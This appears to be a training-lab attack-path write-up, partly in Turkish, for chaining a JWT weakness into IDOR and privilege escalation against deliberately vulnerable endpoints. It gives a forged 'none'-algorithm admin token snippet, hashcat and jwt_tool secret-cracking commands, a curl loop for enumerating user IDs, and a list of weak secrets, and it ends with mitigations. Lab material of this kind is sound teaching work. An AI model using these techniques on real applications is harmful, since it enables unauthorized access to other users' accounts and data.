

# Attack Path 5: JWT Weakness → IDOR → Privilege Escalation

## Overview
Weak JWT decode/manipüle et → token ile IDOR abuse → priv esc.

## Mermaid Diagram


## Adım Adım Senaryo

1. **JWT al**, jwt.io ile decode.
2. **Weak secret crack** (rockyou.txt) veya none alg.
3. **Token'i değiştir**, header'da RS256 confusion.
4. **IDOR** ile diğer user'ların resource'larına eriş.

## Vulnerable Endpoints
- `/vuln/jwt/login` - Get weak JWT
- `/vuln/jwt/verify` - Verify with algorithm confusion
- `/vuln/idor/profile/<id>` - IDOR user profiles
- `/api/v1/users/<id>` - API IDOR

## Example Attacks

### Algorithm Confusion (none)
```python
import jwt
import base64

# Original token
token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.xxx"

# Decode header and payload
header = {"typ": "JWT", "alg": "none"}
payload = {"user": "admin", "admin": True}

# Create unsigned token
new_token = base64.b64encode(json.dumps(header).encode()).decode().rstrip('=')
new_token += '.' + base64.b64encode(json.dumps(payload).encode()).decode().rstrip('=')
new_token += '.'
```

### Weak Secret Cracking
```bash
# Using hashcat
hashcat -m 16500 jwt.txt rockyou.txt

# Using jwt_tool
python3 jwt_tool.py <JWT> -C -d rockyou.txt
```

### IDOR Exploitation
```bash
# Enumerate user IDs
for i in {1..100}; do
  curl -s "http://target/vuln/idor/profile/$i" | jq .
done
```

## Known Weak Secrets
- `secret`
- `monolith_secret_2024`
- `password`
- `123456`

## Difficulty
**Medium**

## Mitigation
- Strong random secret (256+ bits)
- Explicit algorithm validation
- Proper authorization checks (not just authentication)
